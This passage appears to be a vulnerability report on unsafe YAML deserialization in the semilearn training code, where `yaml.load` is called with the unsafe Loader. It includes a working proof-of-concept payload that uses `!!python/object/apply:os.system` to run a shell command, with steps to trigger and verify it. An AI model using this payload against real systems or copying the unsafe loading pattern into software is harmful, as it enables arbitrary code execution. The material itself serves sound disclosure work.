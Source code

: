     2. **File: `/code/semilearn/core/utils/misc.py`**:
        - The function `over_write_args_from_file(args, yml)` is defined.
        - Inside this function, `ruamel.yaml.load(f.read(), Loader=yaml.Loader)` is used to parse the YAML file.

    ```python
    # /code/semilearn/core/utils/misc.py
    import ruamel.yaml as yaml

    def over_write_args_from_file(args, yml):
        """
        overwrite arguments acocrding to config file
        """
        if yml == '':
            return
        with open(yml, 'r', encoding='utf-8') as f:
            dic = yaml.load(f.read(), Loader=yaml.Loader) # Vulnerable line
            for k in dic:
                if k not in args.__dict__ or args.__dict__[k] is None:
                    setattr(args, k, dic[k])
    ```
    - **Visualization:**

    ```mermaid
    graph LR
        A[train.py: main()] --> B[train.py: get_config()]
        B --> C[argparse: parse_args()]
        C --> D[train.py: over_write_args_from_file(args, args.c)]
        D --> E[semilearn/core/utils/misc.py: over_write_args_from_file()]
        E --> F[ruamel.yaml: yaml.load(..., Loader=yaml.Loader)]  -- Vulnerable YAML Parsing --> G[Arbitrary Code Execution]
    ```

    - **Explanation:** The code flow starts in `train.py`, where the configuration file path from command-line arguments is passed to `over_write_args_from_file`. This function in `semilearn/core/utils/misc.py` uses the unsafe `yaml.load` with `Loader=yaml.Loader` from `ruamel.yaml`, leading to the YAML Deserialization vulnerability.

- **Security Test Case:**
    1. **Create a malicious YAML file named `malicious.yaml` with the following content:**
    ```yaml
    !!python/object/apply:os.system ["touch /tmp/pwned"]
    ```
    This YAML payload will execute the command `touch /tmp/pwned` on a Linux-based system, creating an empty file named `pwned` in the `/tmp/` directory. For Windows, you can use `!!python/object/apply:os.system ["type nul > C:\\TEMP\\pwned"]` (adjust path as needed).
    2. **Run the `train.py` script with the malicious configuration file:**
    ```bash
    python train.py -c malicious.yaml
    ```
    3. **Check for successful exploitation:**
        - **Linux/macOS:** Verify if the file `/tmp/pwned` has been created by checking the file system:
        ```bash
        ls /tmp/pwned
        ```
        If the file exists, the vulnerability is successfully exploited.
        - **Windows:** Verify if the file `C:\TEMP\pwned` (or adjusted path) has been created by checking the file system using File Explorer or command prompt:
        ```cmd
        dir C:\TEMP\pwned
        ```
        If the file exists, the vulnerability is successfully exploited.
